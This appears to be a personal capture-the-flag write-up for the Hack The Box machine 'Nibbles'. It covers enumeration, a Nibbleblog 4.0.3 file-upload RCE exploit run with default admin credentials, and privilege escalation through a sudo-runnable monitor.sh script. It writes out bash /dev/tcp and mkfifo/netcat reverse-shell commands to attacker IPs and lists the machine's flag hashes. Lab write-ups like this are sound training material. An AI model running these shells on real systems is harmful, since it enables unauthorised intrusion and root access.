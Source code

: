 ```yaml
---
OS: 
date: 
Time Started: "22:23"
Time Ended: 
tags:
---
```


```table-of-contents
```

# Time: 11:55am - 2:10pm

# Given

Nibbles is a fairly simple machine, however with the inclusion of a login blacklist, it is a fair bit more challenging to find valid credentials. Luckily, a username can be enumerated and guessing the correct password does not take long for most.

## IP: 10.10.10.75

# Steps

## Initial Enumeration

- $ nmap -sCV -p- 10.10.10.75 -oN enum/nmap.out
    - 2 open ports tcp 22 (ssh), 80 (http)
    - Server: Apache/2.4.18 (Ubuntu)
    - OS: Linux
- SSH needs creds, so focus on enumerating HTTP server
    - whatweb wasn't much help
    - manual enumeration showed a comment with a link called "/nibbleblog"
- nibbleblog shows a blog site.
    - Source code doesn't have much info either
    - Some links like feed seem to be PHP files
    - directory enumeration with feroxbuster shows more php files
- Nibbleblog version can be found at ip/nibbleblog/README

## Initial Foothold

- Googling for the nibbleblog version gives the cve
- Downloaded python file for the RCE exploit
- Run exploit to get inital foothold
    - `python3 nibbleblog_4.0.3.py -t <http://10.10.10.75/nibbleblog/admin.php> -u admin -p nibbles -shell`
- Run code to initiate reverse shell to attack host
    - `/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.6/4444 0>&1’`

## Local Enumeration

- `sudo -l` works here. A better way would have been using: **`find / -perm -4000 -type f -exec ls -la {} \\; 2>/dev/null`** .
- User Nibbler can run a certain file as root `/user/home/nibbler/personal/stuff/monitor.sh`

## Privilege Escalation

### Quick and Dirty

- Since user can run [`monitor.sh`](http://monitor.sh) as root, we can create a file with the same name and put it in the same folder then run it as root.

```bash
#! /bin/bash

/bin/bash -p
```

- Give it permissions to execute: `chmod +x ./monitor.sh`
- Run the file as sudo `sudo /home/nibbler/personal/stuff/monitor.sh`
- This opens a root shell.

### Cleaner

- There’s a zip file with the [`monitor.sh`](http://monitor.sh) file inside. Add the code to connect to our attacking host in a bash terminal.
- You can have a netcat listener running to catch that ping.

```bash
# Target Machine
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.154 8083 > /tmp/f" >> monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
```

```bash
# Attacking Machine
root@kali# nc -lnvp 8083
listening on [any] 8083 ...
connect to [10.10.15.154] from (UNKNOWN) [10.10.10.75] 52184
# id
uid=0(root) gid=0(root) groups=0(root)
```

- Resource : [https://0xdf.gitlab.io/2018/06/30/htb-nibbles.html#privesc](https://0xdf.gitlab.io/2018/06/30/htb-nibbles.html#privesc)

# Findings

- Most directories are open to view
- Config.xml - [](http://10.10.10.75/nibbleblog/content/private/config.xml)[http://10.10.10.75/nibbleblog/content/private/users.xml](http://10.10.10.75/nibbleblog/content/private/users.xml)
    - Possible username of site admin: admin
- Admin page: ip/nibbleblog/admin.php
- Nibbleblog version is 4.0.3
    - This version is vulnerable to arbitrary file upload CVE-2015-6967
- Inital foothold user is Nibbler

# Creds

- Default web admin creds are `admin:nibbles`

# Flags

- user.txt - 275fe786daa51e9d7231b202bee8d88d
- root.txt - 49e2d3850b93b08c190ddc59995273a9

# Proof

![image.png](../../Assets/nibbles1.png)
